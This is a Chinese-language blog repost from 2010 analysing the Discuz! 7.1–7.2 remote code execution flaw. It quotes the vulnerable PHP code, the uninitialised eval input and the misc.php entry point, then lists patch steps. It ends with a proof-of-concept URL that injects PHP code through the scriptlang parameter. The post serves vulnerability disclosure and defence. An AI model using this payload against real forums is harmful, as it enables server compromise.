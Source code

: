 ```yaml
---
title: Discuz! 7.1-7.2 远程代码执行漏洞及补丁
description: 今天在XX群听说，/tags/Discuz!">Discuz!又爆了大漏洞——post/Discuz!-7.1-7.2-yuancheng-daima-zhixing-loudong.html">Discuz!7.1-7.2远程代码执行漏洞，很多/tags/Discuz!">DZ论坛都惨遭黑手，下面从网上转来一篇文章给大家看看，作者为oldjun。首先说一下，漏洞是t00ls核心群传出去的，xhming先去读的，然后我后来读的，读出来的都是代码执行，1月5日夜里11点多钟，在核心群的黑客们的要求下，xhming给了个poc，我给了个exp，确实发现的是同一个问题。截止夜里2点多种我下线，还只有t00ls核心群里几个人知道我给出的exp，可我怎么也想不到，经过半天时间，exp就满天飞了，而且确实出自昨天我的那个版本。
date: 2010-01-07 11:26:37
category: 漏洞信息
tags: ['Discuz!', '补丁', '漏洞信息', 'PoC']
post_id: 1044
alias: Discuz!-7.1-7.2-yuancheng-daima-zhixing-loudong
ViewNums: 3445
---
```


今天在XX群听说，[Discuz!](/tags/Discuz!)又爆了大漏洞——[**Discuz! 7.1-7.2 远程代码执行漏洞**](/blog/discuz%21-71-72-yuancheng-daima-zhixing-loudong)，很多[DZ论坛](/tags/Discuz!)都惨遭黑手，下面从网上转来一篇文章给大家看看，作者为[oldjun](http://www.oldjun.com)。

首先说一下，漏洞是t00ls核心群传出去的，xhming 先去读的，然后我后来读的，读出来的都是代码执行，1月5日夜里11点多钟，在核心群的黑客们的要求下，xhming给了个poc，我给了个exp，确实发现的是同一个问题。截止夜里2点多种我下线，还只有t00ls核心群里几个人知道我给出的exp，可我怎么也想不到，经过半天时间，exp就满天飞了， 而且确实出自昨天我的那个版本。

不难想象，exp流传的速度，A与B关系好，A发给B；B与C是好朋友，B发给C...总有人耐不住性子，泄露点风声，于是就人手一份。最受不了的是，竟然有些SB在群里拿来叫卖；实在不想说什么，要叫卖什么时候轮到你？人心不古，以后有的话还是自己藏着吧。

上午漏洞告诉了Saiy，[DZ](/tags/Discuz!)官方的补丁很快就出来了吧。

特别说明：产生漏洞的$scriptlang数组在安装插件后已经初始化，因此有安装插件的用户不受影响。

[Discuz! 7.1-7.2 远程代码执行漏洞](/blog/discuz%21-71-72-yuancheng-daima-zhixing-loudong)介绍：

[Discuz！新版本7.1与7.2版本](/blog/discuz%21-71-72-yuancheng-daima-zhixing-loudong)中的[showmessage函数](/blog/discuz%21-71-72-yuancheng-daima-zhixing-loudong)中eval中执行的参数未初始化，可以任意提交，从而可以执行任意PHP命令。

漏洞分析：

下面来分析下这个[远程代码执行漏洞](/blog/discuz%21-71-72-yuancheng-daima-zhixing-loudong)，这个问题真的很严重，可以直接写shell的：

**一、漏洞来自showmessage函数：**

```
function showmessage($message, $url_forward = '', $extra = '', $forwardtype = 0) {
extract($GLOBALS, EXTR_SKIP);//危险的用法，未初始化的变量可以直接带进函数，直接导致了问题产生
global $hookscriptmessage, $extrahead, $discuz_uid, $discuz_action, $debuginfo, $seccode, $seccodestatus, $fid, $tid, $charset, $show_message, $inajax, $_DCACHE, $advlist;
define('CACHE_FORBIDDEN', TRUE);
$hookscriptmessage = $show_message = $message;$messagehandle = 0;
$msgforward = unserialize($_DCACHE['settings']['msgforward']);
$refreshtime = intval($msgforward['refreshtime']);
$refreshtime = empty($forwardtype) ? $refreshtime : ($refreshtime ? $refreshtime : 3);
$msgforward['refreshtime'] = $refreshtime * 1000;
$url_forward = empty($url_forward) ? '' : (empty($_DCOOKIE['sid']) && $transsidstatus ? transsid($url_forward) : $url_forward);
$seccodecheck = $seccodestatus & 2;
if($_DCACHE['settings']['funcsiteid'] && $_DCACHE['settings']['funckey'] && $funcstatinfo && !IS_ROBOT) {
$statlogfile = DISCUZ_ROOT.'./forumdata/funcstat.log';
if($fp = @fopen($statlogfile, 'a')) {
@flock($fp, 2);
if(is_array($funcstatinfo)) {
$funcstatinfo = array_unique($funcstatinfo);
foreach($funcstatinfo as $funcinfo) {
fwrite($fp, funcstat_query($funcinfo, $message)."
");
}
} else {
fwrite($fp, funcstat_query($funcstatinfo, $message)."
");
}
fclose($fp);
$funcstatinfo = $GLOBALS['funcstatinfo'] = '';
}
}

if(!defined('STAT_DISABLED') && STAT_ID > 0 && !IS_ROBOT) {
write_statlog($message);
}

if($url_forward && (!empty($quickforward) || empty($inajax) && $msgforward['quick'] && $msgforward['messages'] && @in_array($message, $msgforward['messages']))) {
updatesession();
dheader("location: ".str_replace('&amp;', '&', $url_forward));
}
if(!empty($infloat)) {
if($extra) {
$messagehandle = $extra;
}
$extra = '';
}
if(in_array($extra, array('HALTED', 'NOPERM'))) {
$discuz_action = 254;
} else {
$discuz_action = 255;
}

include language('messages');

$vars = explode(':', $message);//只要含:就可以了
if(count($vars) == 2 && isset($scriptlang[$vars[0]][$vars[1]])) {//两个数字即可，用:分割
eval("$show_message = "".str_replace('"', ' "', $scriptlang[$vars[0]][$vars[1]])."";");//$scriptlang未初始化，可以自定义
} elseif(isset($language[$message])) {
$pre = $inajax ? 'ajax_' : '';
eval("$show_message = "".(isset($language[$pre.$message]) ? $language[$pre.$message] : $language[$message])."";");
unset($pre);
}

......
}
```

**二、DZ的全局机制导致了未初始化的参数可以任意提交：**

```
foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
foreach($$_request as $_key => $_value) {
$_key{0} != '_' && $$_key = daddslashes($_value);
}
}
```

**三、misc.php正好有个可以自定义message的点，其实也是未初始化：**

```
elseif($action == 'imme_binding' && $discuz_uid) {

if(isemail($id)) {
$msn = $db->result_first("SELECT msn FROM {$tablepre}memberfields WHERE uid='$discuz_uid'");
$msn = explode(" ", $msn);
$id = dhtmlspecialchars(substr($id, 0, strpos($id, '@')));
$msn = "$msn[0] $id";
$db->query("UPDATE {$tablepre}memberfields SET msn='$msn' WHERE uid='$discuz_uid'");
showmessage('msn_binding_succeed', 'memcp.php');
} else {
if($result == 'Declined') {
dheader("Location: memcp.php");
} else {
showmessage($response['result']);//$response没有初始化，可以自定义

}
}

}
```

**四、漏洞利用：**

showmessage函数里$vars = explode(':', $message);然后message可以自己控制，于是就很容易了，参数是两个自定义的数组。

**五、漏洞修复：**

1.有补丁的打补丁；
2.没有补丁可以暂时先注释引起漏洞的语句，或者对两个变量赋个值。
3.夜火补充：群里朋友提示，DZ后台可以直接打补丁了，未验证。

poc：

（应Saiy的要求，不发exp了！）注册一个用户登陆,然后提交
```

misc.php?action=imme_binding&response[result]=1:2&scriptlang[1][2]={${phpinfo()}}

```
